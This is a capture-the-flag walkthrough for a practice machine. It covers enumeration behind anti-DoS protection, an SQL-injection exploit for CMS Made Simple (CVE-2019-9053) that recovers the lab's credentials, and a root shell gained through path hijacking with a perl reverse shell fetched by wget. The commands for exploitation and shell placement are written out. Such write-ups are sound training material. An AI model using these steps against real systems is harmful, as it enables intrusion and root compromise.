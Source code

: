 # Writeup

## Introduction
Despite it’s easy rating, this box has a DoS protection system in place that protects it from brute-force based techniques and makes enumeration an extra challenge. Once the system being used is identified we will be using a known exploit for a Common Vulnerabilities and Exposures (CVE) entry, namely an SQL injection for the Content Management System (CMS) called CMS Made Simple. Privilege escalation requires process enumeration to identify the path hijacking vulnerability to trigger root execution of a custom process, in our case this will be a reverse TCP shell.

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Usage of Linux | Path Hijacking |
| Enumeration | Process Enumeration |

NOTE: Thanks to recent updates to burp suite, the enumeration method for this box is only available on versions of burpe suite 1.7.36 and below unless you pay for the professional or enterprise edition. Burp suite community version 1.7.36 with the spider feature can be downloaded from https://portswigger.net/burp/releases/professional-community-1-7-36. There are alternative tools available that can bypass the DoS protection for enumeration such as ZAP https://www.kali.org/tools/zaproxy/.

## Phase 1 – Reconnaissance
Due to the DoS protection in place, the reconnaissance phase involves a port scan and burp suite enumeration of the web service running. This is because the use of tools such as ``dirb`` are limited.

### Port Scanning
Nmap scan using ``nmap -T4 -sC -sV -p- [target ip]`` reveals a web server on port 80 and an SSH service on port 22. By adding ``-oN [filename]`` we can save the scan results to look at later.

![img](assets/nmap_scan.png)

### Web Enumeration

The server is using an anti-DoS script so any further enumeration attempts with ``dirb`` or ``fuzz``
will be futile as our IP will be banned for one minute.

![img](assets/dirb_fail.png)

When we visit the web URL we are presented with a bizarre looking page which has no functionality. We can enumerate the web service still by intercepting a request with burp-suite, then by right-clicking on it we can ‘send to spider’’. Switch to the ‘target’ tab to see the results.

![img](assets/spider.png)

NOTE: This feature is only available in versions of burp suite 1.7.36 and below. See introduction for additional help.

Navigating to /robots.txt simply gives us a clue that users are not suppose to access the blog yet which is at /writeup. Navigating to /writeup shows a page that links to some notes on solving retired boxes. If you have the Wappalizer extension installed on your browser then it can reveal that this directory is using CMS Made Simple. Alternatively this can be discovered without Wappalizer by using inspect element or view page source.

![img](assets/pagesource.png)

## Phase 2 – Exploitation
To exploit this machine we need to identify the common vulnerability CVE-2019-9053 and then deploy an exploit which will reveal a user name and password for the machine. Once we have this information we can acquire access via the SSH service running.

### CMS Made Simple SQL Injection
Now that we have established that CMS Made Simple is installed, we can exploit this vulnerable application. We do not know the exact version of the CMS installation however we could see from the page source that it is from 2019. Using the internet we can find a then recent SQL Injection based vulnerability for versions below 2.2.10 known as CVE-2019-9053, there is an exploit associated with it available that could work with our version.

![img](assets/searchsploit.png)

The exploit can be found using ``searchsploit`` which reveals the location of a python script, but the same script can be also found on the internet at https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQLInjection.html. 

![img](assets/script_start.png)

The script functions by exploiting an SQL injection vulnerability to acquire the values for the username and email with the password hash, the script can additionally be run with a wordlist which it will attempt to brute-force the password hash it finds. Regardless of how it is acquired, the script can be run along with it’s brute-force function with ``python [scriptname].py -u http://[target IP]/writeup/ --crack -w /usr/share/wordlists/rockyou.txt``. If you get errors it is because the script uses a package that isn’t default with python version 2, to fix this install pip for python 2 with ``sudo apt install pip2`` then use ``pip2 install termcolor``

![img](assets/script_results.png)

We can use it with the rockyou.txt wordlist and get the password through the exploit scripts own brute-force function. Alternatively we can decrypt the hash manually at https://www.md5online.org/md5-decrypt.html and since the script has found the salt we know to remove the salt pre-fix from the decrypted string to get the actual password. Our access credentials are finally revealed to be the user name ``jkr`` with the password ``raykayjay9``.


### Accessing the User Account
Now that we have credentials we may first try to attempt to login to the admin web panel at URI ``/writeup/admin``but the credentials will not work. They do however work for gaining access via the SSH service we detected with our port scan.

![img](assets/ssh.png)

We now have access to the machine through SSH with user privileges. From here we can get the user flag.

## Phase 3 – Privilege Escalation
To escalate to root privileges will require numeration of the machine processes bu utilizing the tools available to us. Once we identify the vulnerable process, we will be able to force the root level execution of our reverse TCP shell and gain full control and access over the system.

### Process Enumeration
A helpful tool for doing this is a program called pspy by user DominicBreuker which can be easily acquired from https://github.com/DominicBreuker/pspy. We can upload to the target via ``wget`` and a simple python web server.  So that we know whether to use the 32bit or 64bit version of pspu we can check it via SSH using ``uname -a``.

![img](assets/uname.png)

Since we are dealing with a 64-bit operating system and architecture, we will use the 64bit binary file and host it using a python server by using ``sudo python3 -m http.server 80`` from the directory, this will cause that directory to be hosted as a web service. 

![img](assets/python_server.png)

After downloading the enumeration tool with ``wget [our IP]/pspy64`` we must use the command ``chmod +x pspy64`` which will make the binary file executable. We can then run the file and it will begin to monitor process activity, revealing for us any possible vulnerabilities.

![img](assets/pspy.png)

Since the terminal is now being used for monitoring processes, we must use a separate terminal if we wish to continue using SSH, however upon logging in to SSH we can detect a process called run-parts being executed with root privileges. 

![img](assets/runparts.png)

The linux system command ``run-parts`` is used to run all the scripts and programs in a given directory. The vulnerability here is that we are able to access this directory from our user level privileges yet ``run-parts`` command is executed at root level.  This means we can infect the process path with our own process, in this case we can use a shell that will give us access. This type of attack is known as path hijacking.

### Path Hijacking
We can use our python server to upload a reverse TCP shell and then place it into the /bin/run-parts directory, this will mean that next time we connect via SSH we will be able to spawn a shell with root privileges. In this walk-through we will use an executable shell with pearl which can be downloaded from http://pentestmonkey.net/tools/webshells/perl-reverse-shell however one can also be found at ``/usr/share/webshells/perl/perl-reverse-shell.pl``. 

![img](assets/edit_shell.png)

First we need to edit the script to have our IP address and our chosen listener port to send the shell back to. If we save it to our hosted directory, we can use ``wget`` again with our python server to put the shell script on the target machine. To carry out the path hijacking we must copy our shell into the directory being executed via run-parts using ``cp shell.pl /usr/local/bin/run-parts``.  We also need to change the permissions so the file can be executed correctly once again with ``chmod +x /usr/local/bin/run-parts`` on the target.

![img](assets/path_hijack.png)


If we start our listener then use separate terminal window to connect to SSH with ``ssh jkr@[target IP]`` we can spawn ourselves a shell with root permissions and use it to acquire the root flag.

![img](assets/root.png)

If using a pearl shell and it doesn't work at first, run the file from the user folder on target via the SSH connection when first uploaded then repeat the path hijack process by copying it after it has been run for the first time.

## Conclusion
This machine decides to throw a curve-ball to newer players by using DoS protection to limit enumeration by blocking web directory brute-force tools, however the burp-suite spider method we used here will reveal everything that is required. With some investigation and analysis coupled with online research we can identify a CVE and exploit for the web service. This box introduces the technique of path hijacking to hijack a root level process by manipulating the directory we have access to.
